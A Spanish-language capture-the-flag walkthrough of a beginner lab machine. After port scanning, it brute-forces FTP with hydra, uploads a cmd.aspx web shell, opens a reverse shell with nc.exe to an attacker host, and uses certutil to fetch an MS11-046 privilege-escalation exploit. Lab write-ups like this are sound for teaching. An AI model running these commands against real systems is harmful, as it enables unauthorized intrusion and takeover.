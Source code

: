 ```yaml
---
description: '🔍 Dificultad: Principiante'
---
```


# Cocido andaluz

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.85
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -p- --open 192.168.1.85 --min-rate 5000 -n
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 21** perteneciente al **servicio FTP,** el **puerto 80** perteneciente al **servicio HTTP,** el **puerto  135** perteneciente al servicio **MSRPC**, el **puerto 139** perteneciente **netbios-ssn** y el **puerto 445** perteneciente **microsoft-ds** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p21,80,135,139,445 -v 192.168.1.85
```

para obtener más información sobre ese puerto específicamente.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora exploramos el servicio **HTTP**. Ingresamos la IP y nos encontramos la página de por defecto de **Apache**.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ahora buscaremos directorios con la herramienta **Gobuster** a través de:

```bash
gobuster dir -u http://192.168.1.85/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

No encontramos nada relevante.

Revisamos que tenemos el **servicio FTP** pero no tenemos acceso de **anonymous** porque sino se nos había mostrado en los escaneos anteriores.

```bash
hydra ftp://192.168.1.85 -L /usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt -P /usr/share/wordlists/SecLists/Passwords/xato-net-10-million-passwords.txt
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos conectamos con esas credenciales al **FTP**.

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Son los archivos de la página web.

Por lo que hacemos colocar un **.aspx** para ejecutar comandos de manera remota.

```bash
locate .aspx
cp /usr/share/wordlists/SecLists/Web-Shells/FuzzDB/cmd.aspx .
```

Nos lo traemos de manera remota.

```bash
put cmd.aspx
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Podemos ejecutar comandos de manera remota por lo que nos mandamos una Reverse Shell.

Nos copiamos esto en nuestro directorio de trabajo.

```bash
locate nc.exe
cp /usr/share/wordlists/SecLists/Web-Shells/FuzzDB/nc.exe .
```

Para obtener acceso al sistema, configuraremos un recurso compartido utilizando **impacket-smbserver**. A través de este recurso, transferiremos el binario de **nc.exe** en su versión de 32 bits, ya que la arquitectura de la máquina objetivo corresponde a 32 bits. Esto lo hemos verificado previamente utilizando herramientas como **netexec** o **crackmapexec**.

Ejecutamos.

```bash
impacket-smbserver smbCarpeta . -smb2support
```

En el `cmd.aspx` ejecutamos.

```bash
\\192.168.1.50\cmdCarpetanc.exe -e cmd 192.168.1.50 443
```

Nos ponemos en escucha y le damos a ejecutar.

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que usuarios hay.

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root.**

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Para ver información del sistema.

```bash
systeminfo
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Buscamos si tiene un exploit de esa versión de Windows. Encontramos [https://www.exploit-db.com/exploits/40564](https://www.exploit-db.com/exploits/40564)

Buscamos en github y encontramos este ejecutable, por lo que nos lo descargamos.

Usamos certutil para pasar ese archivo a la máquina víctima. Para ello iniciamos en nuestra máquina atacante.

```bash
python3 -m http.server 8000
```

En la máquina víctima en el direcotrio `/tmp`.

```bash
certutil.exe -f -urlcache -split http://192.168.1.50/ms11-046.exe
```

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ejecutamos.

<figure><img src="../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ya somos **root**. Podemos acceder al usuario **Administrador**.

Te deseo mucho éxito en tu búsqueda de las flags! Recuerda prestar atención a cada detalle, examinar los archivos y servicios con detenimiento, y utilizar todas las herramientas disponibles para encontrarlas. La clave para el éxito está en la perseverancia y en no dejar ningún rincón sin explorar. ¡Adelante, hacker! 💻🔍🚀
